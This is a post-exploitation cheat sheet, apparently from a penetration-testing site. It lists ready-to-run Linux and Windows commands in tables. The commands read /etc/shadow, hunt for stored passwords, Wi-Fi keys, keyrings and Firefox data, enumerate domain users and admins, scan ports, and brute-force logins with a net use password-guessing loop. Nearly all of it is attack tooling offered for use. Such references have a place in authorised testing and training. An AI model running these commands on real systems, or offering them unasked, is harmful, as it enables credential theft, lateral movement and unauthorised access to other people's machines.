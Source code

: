```yaml
---
title: Landing Commands
category: Post-Exploitation
order: 2
---
```


> **Linux**

Kernal version  | <code> uname -r </code>
Determine Account | <code> whoami </code>
Add User | <code> useradd -d [home_dir] [login name] </code>
Privilidges |<code>  id </code>
Network Activity | <code> netstat -natu </code>
ARP Cache | <code> arp -a </code>
Routing Table | <code> netstat -nr </code>
Lockout Policy | <code> grep tally /etc/pam.d/* <br> grep tally /etc/pam.conf" </code>
Find Public IP Address | <code> curl icanhazip.com <br> nslookup myip.opendns.com resolver1.opendns.com </code>
Passwords and Users | <code> cat etc/passwd && cat etc/shadow </code>
Wifi Password | <code> /etc/NetworkManager/system-connections </code>
Gnome Keyring | <code> ~/.gnome/keyrings </code>
Find Interesting Files | <code> wmic DATAFILE where "drive='C:' AND Name like '%password%'" GET Name,readable,size /VALUE </code>
Find Interesting File Names and Perms | <code> find / -iname "shadow*" -perm /o+r -ls 2>/dev/null </code>
Find Interesting Content Files 1 | <code> grep -irIL pass /opt/ 2>/dev/null </code>
Find Interesting Content Files 2 | <code> find /home -iname "*.txt" 2>/dev/null -exec grep -c 2 -li  'pass' {} \; </code>
Find Interesting Content Regex | <code> find /home -iname "*.txt" 2>/dev/null -exec egrep -li "^.+@.+$" {} \; </code>

> **Local Windows Accounts and Processes**

Determine Account | <code> whoami, set username </code>
Determin OS Information | <code> wmic os get Caption <code>
Determine OS Information 2 | <code> wmic computersystem LIST full </code>
Anti-Virus info | <code> wmic /namespace:\\root\securitycenter2 path antivirusproduct </code>
Patches Installed | <code> wmic qfe list brief </code>
Processes | <code> tasklist /V /FO CSV </code>
Services | <code> sc query </code>
List Users | <code> net user <br> wmic useraccount list brief </code>
List Groups | <code> net localgroup [/domain] </code> 
List Administrators | <code> net localgroup administrators [/domain] </code> 
List Password and Lockout Policy | <code> net accounts or net accounts /domain </code> 
Find Public IP Address | <code> curl icanhazip.com <br> nslookup myip.opendns.com resolver1.opendns.com </code>
List Groups for Account | <code> DSQUERY USER -samid loginname | DSGET USER -memberof -expand </code>
Inventory Software | <code> dir /s  c:\Program Files > inventory.txt <br> dir /s ""c:\Program Files (x86)"" >> inventory.txt <br> set path </code>
Find Interesting Files | <code> ls -r -file -filter pass* </code>
Find Interesting Info in Files | <code> ls -r c:\ -file | % {select-string -path $_ -pattern mypassword} </code>

If using meterpreter run getprivs, you are an admin if it looks like this:

============================================================
Not Admin
============================================================
  SeShutdownPrivilege
  SeChangeNotifyPrivilege
  SeUndockPrivilege

============================================================
Admin
============================================================
  SeDebugPrivilege
  SeIncreaseQuotaPrivilege
  SeSecurityPrivilege
  SeTakeOwnershipPrivilege
  SeLoadDriverPrivilege
  SeSystemProfilePrivilege
  SeSystemtimePrivilege
  SeProfileSingleProcessPrivilege
  SeIncreaseBasePriorityPrivilege
  SeCreatePagefilePrivilege
  SeBackupPrivilege
  SeRestorePrivilege
  SeShutdownPrivilege
  SeSystemEnvironmentPrivilege
  SeChangeNotifyPrivilege
  SeRemoteShutdownPrivilege
  SeUndockPrivilege
  SeManageVolumePrivilege

> **Windows Domain  Enumeration**

List Domain Info | <code> wmic NTDOMAIN GET DomainControllerAddress,DomainName,Roles /VALUE </code>
List Domain User Info | <code> wmic /NAMESPACE:\\root\directory\ldap PATH ds_user where "ds_samaccountname='testAccount'" GET  </code>
List All Users | <code> wmic /NAMESPACE:\\root\directory\ldap PATH ds_user GET ds_samaccountname </code>
List All Groups | <code> wmic /NAMESPACE:\\root\directory\ldap PATH ds_group GET ds_samaccountname </code>
List Members of Group (e.g., domain admin) | <code> wmic /NAMESPACE:\\root\directory\ldap PATH ds_group where "ds_samaccountname='Domain Admins'" Get ds_member /Value </code>
List all computers on domain | <code> wmic /NAMESPACE:\\root\directory\ldap PATH ds_computer GET ds_samaccountname </code>
List all computers on domain | <code> wmic /NAMESPACE:\\root\directory\ldap PATH ds_computer GET ds_dnshostname </code>
List Domain Controllers | <code> NETDOM QUERY /D:MyDomain DC </code>
List Domain Controllers | <code> DSQUERY Server </code>
List Member Servers | <code> NETDOM QUERY /D:MyDomain SERVER </code>
List all Workstations | <code> NETDOM QUERY /D:MyDomain WORKSTATION </code>
List all shares for a system | <code> net view [system] /ALL [/Domain] </code>

> **Windows Network Enumeration**

DNS Cache | <code> ipconfig /displaydns </code>
Arp Cache | <code> arp -a </code>
Network Activity | <code> netstat -na | find "ESTABLISHED" </code>
Routing Table | <code> netstat -nr  </code>
Ping Sweep | <code> for /L %i in (1, 1, 255) do @ping -n 1 192.168.2.%i | find "TTL" </code> 
DNS Lookup | <code> for /L %i in (1, 1, 255) do @echo 10.10.10.%i & nslookup 10.10.10.%i  2>nul | find "Name" </code> 
PowerShell port scanner | <code> 1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("10.0.0.100",$_)) "Port $_ is open!"} 2>$null </code>
Scan a range of IPs for a single port | <code> foreach ($ip in 1..20) {Test-NetConnection -Port 80 -InformationLevel "Detailed" 192.168.1.$ip} </code>
PS IP range & port range scanner | <code> 1..20 | % { $a = $_; 1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("10.0.0.$a",$_)) "Port $_ is open!"} 2>$null} </code>
PS test egress filtering | <code> 1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("allports.exposed",$_)) "Port $_ is open!" } 2>$null </code>
Password Guess | <code> for /f %i in (password.lst) do @echo %i & @net use \\[tartet_IP_addr] %i /u:[UserName] 2>nul && echo [UserName]: %i >> success.txt </code> 

> **Firefox**

Finding user browser history and passwords in history:
{% highlight bash %}
sqlite3 ~/pilfered-firefox-profile/gn2uzbr6.Default\ User/places.sqlite sqlite> select * from moz_places where url like "%@%";

Cd ~/.mozilla/firefox/g4iiysbk.default/Cache
Strings [filename] | grep [file eg php]
{% endhighlight %}


> **Interesting Files**

Passwords.txt	| Users often create password files as reminders.
wp-config.php | 	WordPress configuration file. Stores database passwords.
key3.db / logins.json	| Password file for the Firefox web browser.
<custom>.sh	| Administrators often store plaintext passwords in automation scripts
fstab	| The fstab may contain passwords to mounted samba shares
*.pst	| Users may email passwords around. These can often be found in .pst files
  
> **Regex Library**

[regexlib](http://www.regexlib.com/)


